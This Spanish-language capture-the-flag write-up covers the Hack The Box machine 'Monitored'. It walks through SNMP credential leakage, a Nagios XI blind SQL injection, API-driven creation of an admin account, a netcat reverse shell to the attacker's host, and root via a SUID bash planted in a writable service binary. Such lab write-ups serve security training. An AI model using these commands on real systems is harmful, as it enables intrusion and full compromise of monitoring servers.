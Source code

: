 # Monitored Writeup

Escaneo de nmap para ecnontrar puertos

~~~bash
sudo nmap 10.10.11.248 -p- -sS --min-rate 5000 -n -vvv -Pn
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
389/tcp  open  ldap    syn-ack ttl 63
443/tcp  open  https   syn-ack ttl 63
5667/tcp open  unknown syn-ack ttl 63
sudo nmap 10.10.11.248 -sVC -p 22,80,389,443,5667
[sudo] password for h4m1: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-26 16:03 CST
Nmap scan report for monitored.htb (10.10.11.248)
Host is up (0.069s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
5667/tcp open  tcpwrapped
~~~

Entramos al puerto 443 y vemos un panel de login.

![Pasted image 20240226163529.png](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240226163529.png)

Enumeramos con ffuf

~~~bash
ffuf -c -t 200 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://monitored.htb/nagiosxi/FUZZ/

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://monitored.htb/nagiosxi/FUZZ/
 :: Wordlist         : FUZZ: /home/h4m1/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 84ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 485ms]
tools                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 394ms]
# This work is licensed under the Creative Commons [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 463ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Copyright 2007 James Fisher [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 543ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 544ms]
# on at least 2 different hosts [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 546ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 581ms]
# directory-list-2.3-medium.txt [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Priority ordered case-sensitive list, where entries were found [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 603ms]
reports                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 367ms]
admin                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 417ms]
account                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 327ms]
mobile                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 423ms]
help                    [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 530ms]
includes                [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 80ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
db                      [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 79ms]
about                   [Status: 200, Size: 18068, Words: 3095, Lines: 310, Duration: 1028ms]
api                     [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 97ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 465ms]
config                  [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 189ms]
views                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 111ms]
sounds                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 81ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 136ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 503ms]
~~~


Enumeramos la API

~~~bash
Hay un authenticate, pero nadamás
~~~

Vamos a ver UDP, porque esto parece un rabbit hole, escaneamos UDP y encontramos SNMP

~~~bash
sudo nmap -sU monitored.htb  
sudo nmap --script "snmp* and not snmp-brute" monitored.htb -sU -p 161
~~~

Encontramos mucha información para analizarla más lentamente usamos SNMPWALK

~~~bash
snmpwalk -v1 -c public monitored.htb > SNMPOUTPUT

HOST-RESOURCES-MIB::hrSWRunParameters.1406 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh <user> <password>"
~~~

Al parecer en ninguna parte podemos autenticarnos con estas credenciales, menos en un lugar, en la API

~~~bash
curl -s -X POST 'https://monitored.htb/nagiosxi/api/v1/authenticate/' -k -d "username=<user>password=<password>"
~~~

Posteriormente, podemos utilizar el token que nos genera en la app web

~~~url
https://monitored.htb/nagiosxi/login.php?token=873959fc95b5f1dac4a388c940fa0cf54198787a
~~~

Posteriormente parece que no somos administradores, pero logramos ver que se está corriendo NagiosXI 5.11.0, vemos que hay varias vulnerabilidades, la funcional es la sqli...

https://vuldb.com/?id.239985

Podemos ver que es aprovechándonos de lo siguiente:

~~~url
/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3
~~~

Con esto me pongo a probar la vulnerabilidad en burpsuite y posteriormente cree un script, parece ser una blind sqli

![Imagen](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228170012.png)

Adjunto también el [script](https://github.com/Hamibubu/CVE-2023-48084) con el que consigo dumpear todo

Después de un rato encuentro que el hash no es posible crackear pero hay api key, investigando, con esa api key es posible crear un usuario con privilegios de administrador

https://support.nagios.com/forum/viewtopic.php?p=276220
https://support.nagios.com/forum/viewtopic.php?f=16&t=42923

~~~bash
curl -XPOST "http://monitored.htb/nagiosxi/api/v1/system/user?apikey=<api_key>&pretty=1" -d "username=hackerman&password=1234&name=HackerMan&email=hacker@monitored.htb&auth_level=admin" -k
~~~

Con esto gano admin access y hay una RCE que se puede aprovecharse, podemos crear comandos que queramos

![Pasted image 20240228170903.png](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228170903.png)

Aplicamos la configuración y ahora escuchamos con netcat

~~~bash
nc -lvnp 6666
~~~

![IMG](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228171117.png)

Ejecutamos el comando con, netcat al parecer es con el que funciona `nc 10.10.15.2 6666 -e /bin/bash`

Llegamos ahora sí al user, comenzamos a hacer un reconocimiento, ejecutamos sudo -l y vemos lo siguiente


~~~bash
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
~~~

Hay gran cantidad de binarios y podemos manejarlos al antojo

~~~bash
# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
~~~

Tenemos varios servicios que podemos manejar, en base a esto podemos buscar estos 

~~~bash
echo '"postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"' | tr -d '"' | tr " " "\n" > services

nagios@monitored:~$ while read -r serv; do find / -writable -name "$serv" 2>/dev/null; done < services
/usr/local/nagios/bin/nagios
/home/nagios
/usr/local/nagios/bin/npcd
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
~~~

Podemos ver que podemos modificar nagios, lo podemos borrar y hacer que haga cosas, detenemos el servicio, lo borramos, cambiamos por un script de bash que nos genere una bash con permisos suid

~~~
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop nagios
nagios@monitored:~$ rm /usr/local/nagios/bin/nagios
nagios@monitored:~$ nano /usr/local/nagios/bin/nagios
nagios@monitored:~$ chmod 774 /usr/local/nagios/bin/nagios
nagios@monitored:~$ cat /usr/local/nagios/bin/nagios
#!/bin/bash
chmod u+s /bin/bash
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 32 Feb 28 18:39 /usr/local/nagios/bin/nagios
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.
nagios@monitored:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
nagios@monitored:~$ bash -p
bash-5.1# whoami
root
bash-5.1# 
~~~

Volvemos a correr eso y con ello ganamos el root de una forma sencilla

Créditos tambien a [Retr0](https://github.com/JoseVazquez101)
